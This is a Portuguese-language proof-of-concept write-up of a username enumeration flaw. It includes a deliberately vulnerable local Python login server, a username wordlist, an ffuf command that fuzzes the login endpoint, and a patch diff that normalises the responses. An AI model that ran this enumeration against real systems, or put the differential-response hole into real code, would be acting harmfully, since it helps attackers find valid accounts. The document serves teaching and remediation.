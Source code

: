 # [PoC] Enumeração de Usuário via Resposta Diferencial
=============================================================================
Author: [Jéssica Moreira]
Date: 13/08/2025
Target: Ambiente Local (localhost:8000)
Description: Análise e exploração de uma falha de enumeração de usuário em um endpoint de autenticação. A vulnerabilidade é explorada via análise diferencial da resposta HTTP utilizando a ferramenta ffuf.

![Linguagem](https://img.shields.io/badge/Python-3.8%2B-blue)
![Licença](https://img.shields.io/badge/License-MIT-green)
![Status](https://img.shields.io/badge/Status-Conclu%C3%ADdo-brightgreen)
=============================================================================


## [CVE-2025-XXXX] Análise da Vulnerabilidade

- **Vetor de Ataque:** Enumeração de Identidade
- **Endpoint Afetado:** `/login` (método `POST`)
- **Resumo Técnico:** O endpoint de autenticação exibe um comportamento de resposta não-uniforme. Ao receber um `payload` com um `username` válido, a API retorna a string *"Senha incorreta!"*. Para um `username` inválido, a resposta contém a string *"Usuario ou senha invalidos."*. Essa discrepância permite a um ator malicioso diferenciar entre contas existentes e não existentes.

## Ambiente de Testes (Lab Setup)

Para replicar a vulnerabilidade, o seguinte ambiente foi configurado.

<details>
<summary><code>./frontend/index.html</code></summary>

```html
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <title>Login Secreto</title>
</head>
<body>
    <h2>Área Restrita</h2>
    <form action="/login" method="post">
        <input type="text" name="username" placeholder="Nome de Usuário" required>
        <input type="password" name="password" placeholder="Senha" required>
        <button type="submit">Entrar</button>
    </form>
</body>
</html>
</details>



<details>
<summary><code>./backend/servidor.py</code></summary>

Python

from http.server import HTTPServer, BaseHTTPRequestHandler
import urllib.parse

USUARIOS_VALIDOS = ["admin", "suporte", "gato_ninja"]

class ServidorVulneravel(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/login':
            content_length = int(self.headers['Content-Length'])
            post_data_bytes = self.rfile.read(content_length)
            post_data_str = post_data_bytes.decode('utf-8')
            post_data = urllib.parse.parse_qs(post_data_str)
            username_submetido = post_data.get('username', [''])[0]

            # VULNERABILITY: Response bifurcation based on user existence
            if username_submetido in USUARIOS_VALIDOS:
                resposta_html = b"<h1>Senha incorreta!</h1>"
            else:
                resposta_html = b"<h1>Usuario ou senha invalidos.</h1>"

            self.send_response(200)
            self.send_header('Content-type', 'text/html; charset=utf-8')
            self.end_headers()
            self.wfile.write(resposta_html)

    def do_GET(self):
        if self.path == '/':
            self.send_response(200)
            self.send_header('Content-type', 'text/html; charset=utf-8')
            self.end_headers()
            with open('index.html', 'rb') as f:
                self.wfile.write(f.read())

print("Servidor iniciado em http://localhost:8000")
httpd = HTTPServer(('localhost', 8000), ServidorVulneravel)
httpd.serve_forever()
</details>


Prova de Conceito (PoC): Executando o Exploit
Payload (./usuarios.txt)
admin
root
teste
suporte
user
gato_ninja



# Script para executar a enumeração de usuários
ffuf \
  -w "usuarios.txt" \
  -u "http://localhost:8000/login" \
  -X POST \
  -d "username=FUZZ&password=123" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -mr "Senha incorreta"


Remediation: Aplicando o Patch
A correção envolve a normalização da resposta do endpoint. A mudança é apresentada abaixo no formato diff.

Diff

--- a/backend/servidor.py
+++ b/backend/servidor.py
@@ -14,12 +14,8 @@
             post_data = urllib.parse.parse_qs(post_data_str)
             username_submetido = post_data.get('username', [''])[0]
 
-            # VULNERABILITY: Response bifurcation based on user existence
-            if username_submetido in USUARIOS_VALIDOS:
-                resposta_html = b"<h1>Senha incorreta!</h1>"
-            else:
-                resposta_html = b"<h1>Usuario ou senha invalidos.</h1>"
-
+            # PATCH: Response is now generic, preventing enumeration.
+            resposta_html = b"<h1>Nome de usuario ou senha invalidos.</h1>"
+            
             self.send_response(200)
             self.send_header('Content-type', 'text/html; charset=utf-8')
             self.end_headers()
